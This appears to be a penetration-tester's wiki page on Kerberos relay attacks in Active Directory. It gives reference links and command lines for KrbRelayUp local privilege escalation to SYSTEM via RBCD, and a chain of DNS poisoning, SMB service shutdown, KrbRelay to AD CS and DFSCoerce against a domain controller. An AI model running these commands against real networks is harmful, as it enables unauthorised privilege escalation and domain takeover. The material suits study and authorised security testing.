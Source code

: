 # Kerberos Relay

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
- [https://decoder.cloud/2025/04/24/from-ntlm-relay-to-kerberos-relay-everything-you-need-to-know/](https://decoder.cloud/2025/04/24/from-ntlm-relay-to-kerberos-relay-everything-you-need-to-know/)




## mitm6 + Kerberos DNS Relay + AD CS ESC8

- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)




## Tools



### KrbRelay

- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)



### KrbRelayUp

- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)
- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)
- [https://github.com/Dec0ne/DavRelayUp](https://github.com/Dec0ne/DavRelayUp)


#### RELAY

Relay authentication to LDAP(S) with automatic machine creation and configure RBCD:

```
PS > .\KrbRelayUp.exe RELAY [-d|--Domain megacorp.local] [-dc|--DomainController DC01.megacorp.local] [-m|--Method RBCD] -c|--CreateNewComputerAccount [-cn|--ComputerName FAKEMACHINE$] [-cp|--ComputerPassword Passw0rd!]
```

Perform RBCD with UPNs:

```
PS > .\KrbRelayUp.exe RELAY -u2u -cn j.doe -cp Passw0rd!
```

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd.md#rbcd-with-upns" %}
[rbcd.md](rbcd.md)
{% endcontent-ref %}


#### SPAWN

Execute a command as NT AUTHORITY\\SYSTEM via RBCD abuse:

```
PS > .\KrbRelayUp.exe SPAWN [-m|--Method RBCD] [-i|--Impersonate administrator] [-s|ServiceName PwnSVC] [-sc|--ServiceCommand C:\Windows\System32\cmd.exe] -cn|--ComputerName FAKEMACHINE$ -cp|--ComputerPassword Passw0rd! [or -ch|--ComputerPasswordHash fc525c9683e8fe067095ba2ddc971889]
```

{% hint style="warning" %}
As [@ShitSecure](https://twitter.com/ShitSecure) mentioned, executing the binary as a .NET Reflective Assembly from PowerShell will fail because the PowerShell process will have already initialized the security parameters for COM itself after having been launched, so `CoInitializeSecurity` will not contain those new parameters attempted to set by KrbRelay(Up).
{% endhint %}



### RemoteKrbRelay

- [https://habr.com/ru/articles/848542/](https://habr.com/ru/articles/848542/)
- [https://github.com/CICADA8-Research/RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay)
- [https://github.com/rtecCyberSec/RemoteKrbRelay/tree/ntlm](https://github.com/rtecCyberSec/RemoteKrbRelay/tree/ntlm)
- [https://github.com/OleFredrik1/remoteKrbRelayx](https://github.com/OleFredrik1/remoteKrbRelayx)



### KrbRelay-SMBServer

- [https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html](https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html)
- [https://github.com/decoder-it/KrbRelay-SMBServer](https://github.com/decoder-it/KrbRelay-SMBServer)
- [https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx)
- [https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with)

Stop/start services with Cmd:

```
Cmd > sc config LanmanServer start= disabled & sc stop LanmanServer & sc stop srv2 & sc stop srvnet
Cmd > sc config LanmanServer start= auto & sc start LanmanServer & sc start srv2 & sc start srvnet
```

Stop/start services with PowerShell and attack:

```
PS > Invoke-DNSUpdate -DNSName adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -DNSData 10.10.13.37
PS > Set-Service -Name LanmanServer -StartupType Disabled; Stop-Service -Name LanmanServer -Force; Stop-Service -Name srv2 -Force; Stop-Service -Name srvnet -Force
PS > .\KrbRelay.exe -spn HTTP/ADCS.megacorp.local -redirecthost adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv -adcs DomainController -listenerport 445
$ dfscoerce.py -d megacorp.local -u snovvcrash -k -no-pass adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA DC01.megacorp.local
PS > Set-Service -Name LanmanServer -StartupType Automatic; Start-Service -Name LanmanServer; Start-Service -Name srv2; Start-Service -Name srvnet
```
